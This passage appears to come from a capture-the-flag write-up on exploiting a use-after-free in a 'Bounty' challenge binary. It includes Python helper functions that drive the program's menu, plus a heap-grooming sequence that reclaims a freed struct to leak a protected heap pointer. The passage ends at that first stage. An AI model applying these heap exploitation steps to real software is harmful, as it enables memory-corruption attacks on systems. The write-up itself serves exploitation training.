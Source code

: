 The `view()` function asks the user for a Bounty ID, and after checking if the ID is valid, the index of the global array is not NULL, and that the Bounty is inuse, the Bounty information is printed out to us.

### Exploitation

During the exploitation process, we will be using the fact that the Bounty_t pointers are not NULLed out to its full potential, since bypassing some checks can lead to a `Use-After-Free` vulnerability in multiple functions.

Like we mentioned earlier, every bounty registration allocates a Bounty_t struct, and a description, which we fully control. Our first objective is to obtain a heap leak. We want to create a freelist queue that looks like this, in order to get back a previously freed `Bounty_t struct` for our description (the Bounty_t struct is 26 bytes long):

```
Freelist: [Freed Bounty_t struct] -> [Freed Bounty_t struct] -> ... -> ...
```

We can do that by registering a bounty with a description size of 26 bytes, so the same as the `Bounty_t struct`, then registering a bounty with a description size of 100 bytes. When freeing both of those bounties, the 100 byte data chunk will end up on a seperate freelist. Let's see it in action.


```python
# helper functions
def alloc(size, amount=1337, data=b'aaa'):
  r.sendlineafter(b'==> ', b'1')
  r.sendlineafter(b':', str(amount).encode())
  r.sendlineafter(b':', b'n')
  r.sendlineafter(b':', str(size).encode())
  r.sendlineafter(b':', data)
  r.recvuntil(b'ID: ')
  return int(r.recvline())

def delete(idx):
  r.sendlineafter(b'==> ', b'2')
  r.sendlineafter(b':', str(idx).encode())

def view(idx, len=0):
  r.sendlineafter(b'==> ', b'3')
  r.sendlineafter(b':', str(idx).encode())
  r.recvuntil(b'Description: ')
  return r.recvline() if len == 0 else r.recv(len)

# ( Bounty_t struct used by binary is 26 bytes long )
# place 2 freed Bounty_t chunks in a tcache(0x30)
# next 0x30 contents request will get previous Bounty_t struct
# which contains a protected heap pointer
alloc(26)
alloc(100)
delete(0)
delete(1)
```
